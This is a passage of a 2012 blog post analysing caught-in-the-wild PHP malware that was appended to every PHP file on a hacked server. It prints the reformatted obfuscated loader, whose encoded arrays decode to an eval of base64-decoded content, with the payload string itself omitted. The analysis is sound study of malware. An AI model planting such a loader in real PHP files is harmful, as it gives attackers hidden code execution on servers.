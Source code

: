 ```yaml
---
title: GetMama Analysis, Having fun and reading PHP
date: 2012-04-16
tags:
    - malware
    - infosec
layout: layouts/old-post.njk
---
```


## Introduction

This is the result of combining tomorrow being holiday and liking too much to tinker into other people's code. In other words, this is some brief analisys of a real-wold caught-in-the-wild PHP malware that I got from a friend of mine.

I tried to write this article with a plain and easy to understand language. Still, this is a somewhat specific topic and you will need basic coding knowledge to understand it.

## History

So [a friend of mine](https://twitter.com/#!/Guill3m) (gr&agrave;cies!) told me about this server that was being hacked.

The problem was that a chunck of apparently nonsense was being appended on top of every *php* file.

He didn't give me the code of the application so I could find any vulnerabilities, but he showed me that funny chunck that was being appended to every file.

And well, it was funny indeed! It just looked like a huge pile of crammed together letters and symbols.

But was it just that? Let's see...

## The Loader

If you looked closely you could see some familiar terms. Dollar signs in very specific places. Some random *return*s. So I opened a text editor and started moving stuff around. This is what I got:

	/*5b71e190dfb2710d2d7383f6cb95ad21_on*/ 
	$GwXYUjpl11Wxase= array('7055','7072','7051','7062'); 
	$IDYNhwekmRFMoMVD9IrTSH4KyR8zacb9F0MNmRXzytbN6Xg5vy= array('7890','7905','7892','7888','7907','7892','7886','7893','7908','7901','7890','7907','7896','7902','7901'); 
	$o5KOurMT= array('3579','3578','3596','3582','3535','3533','3576','3581','3582','3580','3592','3581','3582'); 
	$hBRMKGiGQLQymNOIBcZMvzHh="SOME 9550 CHAR STRING"; 
	if (!function_exists("bDCEisaYjufI3XGa2")) 
	{ 
		function bDCEisaYjufI3XGa2($sVEQE4cMb2rYxk18P2LCllHaMeKlFWwwH0dbVfNX75M,$ODuVv6oHh) 
		{ 
			$XU1i6x4sTCjWE42iS0dvljYG5kCkRK = ''; 
			foreach($sVEQE4cMb2rYxk18P2LCllHaMeKlFWwwH0dbVfNX75M as $tvXyrltK4VTRpOJx) 
			{ 
				$XU1i6x4sTCjWE42iS0dvljYG5kCkRK .= chr($tvXyrltK4VTRpOJx - $ODuVv6oHh); 
			} 
			return $XU1i6x4sTCjWE42iS0dvljYG5kCkRK; 
		} 
		$Miio3ZxoILo = bDCEisaYjufI3XGa2($GwXYUjpl11Wxase,6954); 
		$nEnL9w3akcu = bDCEisaYjufI3XGa2($IDYNhwekmRFMoMVD9IrTSH4KyR8zacb9F0MNmRXzytbN6Xg5vy,7791); 
		$zndho5jwerL7h8mPJAAS5Nt5an5lppB0 = bDCEisaYjufI3XGa2($o5KOurMT,3481); 
		$V8SAifFzQDHPPnpgN8brs6rF1CUh = $nEnL9w3akcu('$iLzKu0SAvihZPWF2cLFbMXtJeYBHJIBl',$Miio3ZxoILo.'('.$zndho5jwerL7h8mPJAAS5Nt5an5lppB0.'($iLzKu0SAvihZPWF2cLFbMXtJeYBHJIBl));'); 
		$V8SAifFzQDHPPnpgN8brs6rF1CUh($hBRMKGiGQLQymNOIBcZMvzHh); 
	} 